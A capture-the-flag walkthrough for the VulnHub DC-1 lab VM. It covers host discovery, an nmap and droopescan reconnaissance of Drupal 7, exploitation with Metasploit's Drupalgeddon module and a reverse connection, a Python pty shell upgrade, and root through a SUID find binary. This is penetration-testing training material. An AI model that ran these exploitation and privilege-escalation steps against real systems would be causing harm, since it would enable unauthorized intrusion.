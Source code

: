# DC: 1 Walkthrough

## Preparation
1. Download DC-1.ova file ([DC-1.ova](https://download.vulnhub.com/dc/DC-1.zip))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/dc-1-server_network.png)

1. Start the Potato virtual machine
    * Turn on the potato virtual machine from the VirtualBox  
    ![StartPotato](./img/dc-1-server_initial.png)  

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
    ![netdiscover](./img/dc-1_server1.png)  
    ![PotatoIP-Address](./img/dc-1-server2.png)  
        * 192.168.56.100: DHCP Server
        * **192.168.56.104**: DC-1 Server

1. Set the DC-1 IP address to the environment variance  
    * `export IP=192.168.56.104`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/dc-1-server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 22, 80, and 111 ports.  

## Initial Access
1. Access the HTTP service using ParrotOS browser    
    * Enter `http://192.168.56.104:80`  
    ![HTTP-Access](./img/dc-1-server4.png)  

1. Confirm exisiting the "robots.txt file" 
    * Enter `http://192.168.56.104/robots.txt`  
    ![Robot-txt](./img/dc-1-server5.png)  
        - "Disallow": Deny crawler access  

1. Access "/MAINTAINERS.txt
    * It implies the service uses Drupal version 7  
    ![MAINTAINERS-txt](./img/dc-1-server6.png)  

1. Use droopescan (CMS vulnerability scanner)
    * Set the target URL to the environment variance  
    `export URL="http://$IP:80/`  
    * Scan using droopescan  
    ![droopescan](./img/dc-1-server7.png)
        - 5 plugins
        - 2 theme
        - Possible versions (7.22 - 7.26)
        - Possible interesting URL (/user/login)

1. Investigate Exploits for Drupal
    * Access to the [Exploit Database](https://www.exploit-db.com/)  
    * Search exploitations for the following keywords  
    `drupal 7 remote`  
    ![Remote-Exploit](./img/dc-1-server8.png)  
        - Memorize the "**Drupalgeddon**"

## Execution
1. Start Metasploit
    * Try to attack with "Drupalgeddon" vulnerability using Metasploit  
    Enter `msfconsole`   

1. Search vulnerability
    * Enter `search type:exploit drupal`  
    ![drupal-exploit](./img/dc-1-server9.png)
        - Note "drupageddon" because it is a vulnerability for versions 7.0 to 7.31  

1. Set exploit module
    * Enter `use exploit/multi/http/drupal_drupageddon`  
    * Set the option  
    ![set-option](./img/dc-1-server10.png)  
        - RHOSTS: 192.168.56.104 (DC-1 server)
        - RPORT: 80 (As default is 80, we do not need to set it)
        - TARGETURI: / (As default is /, we do not need to set it)
        - LHOST: 192.168.56.101 (ParrotOS machine's IP address)

1. Execute the exploit module
    * Enter `run`  
    ![Execute-exploit](./img/dc-1-server11.png)  
        - Success to enter the "/var/www" directory in the DC-1 server
        - Found the flag file of "flag1.txt"

## Credential Access for general user
1. Confirm the flag1.txt file
    * We confirm the next hint from the file  
    ![flag1](./img/dc-1-server12.png)

1. Take control of the interactive shell
    * Use the pyt module of Python  
    ![python-shell](./img/dc-1-server13.png)  
        - Enter `shell`
        - Enter `which python`
        - Enter `python -c 'import pty; pty.spawn("/bin/bash")'`

1. Investigate the home directory files
    * Find useful information  
    ![home-directory](./img/dc-1-server14.png)
        - Although ".bash_history" may have attack hints in the previous command histories, there is no permission for the general users
        - The "flag4.txt" file may also not be useful
        - Unfortunately, there are no useful information to the root

1. Investigate the SUID file
    * Searching the SUID file is a standard approach for server intrusion
    * `find / -perm -u=s -type f 2> /dev/null`  
    ![Search-SUID](./img/dc-1-server15.png)
        - `find /`: Begins the search from the root directory
        - `-perm -u=s`: Matches files with the SUID bit set for the user/owner
        - `-type f`: Limits results to regular files
        - `2> /dev/null`: Redirects error output to /dev/null, suppressing them from the console  

## Privilege Escalation
1. Utilize the find command
    * Example commands for stealing a shell using find command
        - `find . -exec /bin/sh -p \; quit`
    * As this time steal bash shell, enter the following command
    ![Use-find](./img/dc-1-server16.png)
        - Enter `which find`
        - Enter `/usr/bin/find . -exec /bin/bash -p \; -quit`
        - Return root prompt (#)

## Credential Access for root user
1. Open "thefinalflag" file
    * Move to "root" directory  
    * Access the "thefinalflag.txt"  
    ![final-flag](./img/dc-1-server17.png)
